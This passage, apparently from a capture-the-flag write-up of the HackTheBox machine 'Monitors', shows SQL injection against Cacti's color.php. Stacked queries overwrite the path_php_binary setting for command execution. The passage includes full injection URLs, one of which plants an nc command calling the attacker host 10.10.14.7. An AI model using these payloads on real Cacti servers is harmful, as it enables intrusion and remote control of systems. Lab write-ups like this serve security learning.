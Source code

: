 It POC also shows that I could stack queries, putting another query after the `;`. In the example, it does an `update` to change one of the users username, but I don’t need that.

#### RCE POC

I could enumerate the DB from there, but the POC in the GitHub issue goes on. The idea here is to stack a second query that updates the `path_php_binary` column in the `settings` table, and then trigger that to be executed. In the example, the author uses a `touch` commands to show it works. I’ll use a `ping`.

```

/cacti/color.php?action=export&header=false&filter=1')+UNION+SELECT+1,username,password,4,5,6,7+from+user_auth;update+settings+set+value='ping+-c+1+10.10.14.7;'+where+name='path_php_binary';--+-

```

Now with `tcpdump` running, I’ll visit `http://cacti-admin.monitors.htb/cacti/host.php?action=reindex` to trigger, and Monitors sends ICMP packets:

```

oxdf@parrot$ sudo tcpdump -i tun0 -n icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
14:04:37.782418 IP 10.10.10.238 > 10.10.14.7: ICMP echo request, id 3035, seq 1, length 64
14:04:37.782445 IP 10.10.14.7 > 10.10.10.238: ICMP echo reply, id 3035, seq 1, length 64

```

#### Difficulties

The hardest part of getting a shell for me was learning a quirk about the RCE and how the `host.php` trigger worked. I was set up with the request to do the SQL injection in one Burp Repeater window, and the trigger via `host.php` in another. I noticed that even after I changed the payload, I was still getting pings.

I updated the injection request to print what was in the `path_php_binary` variable before it changed it:

```

/cacti/color.php?action=export&header=false&filter=1')+UNION+SELECT+1,name,value,4,5,6,7+from+settings+where+name='path_php_binary';update+settings+set+value='nc+10.10.14.7+443'+where+name='path_php_binary';--+- 

```

In doing this, I could see that I was successfully changing the database, but still getting the original pings.

It seems that no matter what the DB says, the actually binary will would only update once per session. So once I visited `host.php` to trigger, if I wanted to trigger again, I needed to log out and back in, and then it would work.

#### Script
